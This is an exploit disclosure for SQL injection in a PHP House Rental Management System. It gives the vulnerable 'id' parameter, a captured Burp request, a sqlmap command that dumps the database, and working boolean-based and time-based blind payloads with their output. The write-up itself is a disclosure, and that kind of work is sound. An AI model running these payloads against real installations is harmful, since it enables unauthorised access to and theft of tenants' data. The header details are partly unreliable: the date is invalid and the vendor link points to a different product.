 # House Rental Management System - SQL Injection - 2
+ **Exploit Title:** House Rental Management System - SQL Injection - 2
+ **Date:** 2024-15-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
+ **Software Link:** https://download.code-projects.org/details/74c24d93-431e-4e31-acc1-802f14caef5c
+ **Version:** Latest
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
House Rental Management System allows SQL Injection via the 'id' parameter at "http://localhost/rental/view_payment.php?id=12". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/rental/index.php?page=tenants"
+ Click view button.
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
GET /rental/view_payment.php?id=12 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=12 AND 5328=5328

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=12 AND (SELECT 7871 FROM (SELECT(SLEEP(5)))Ovop)
---
[17:10:43] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[17:10:43] [INFO] fetching current database             
current database: 'house_rental_latest'
```
+ current database: `house_rental_latest`

![Ekran görüntüsü 2024-05-16 002239](https://github.com/BurakSevben/CVEs/assets/117217689/f25e73fd-750d-400c-a83f-4e042416fa48)
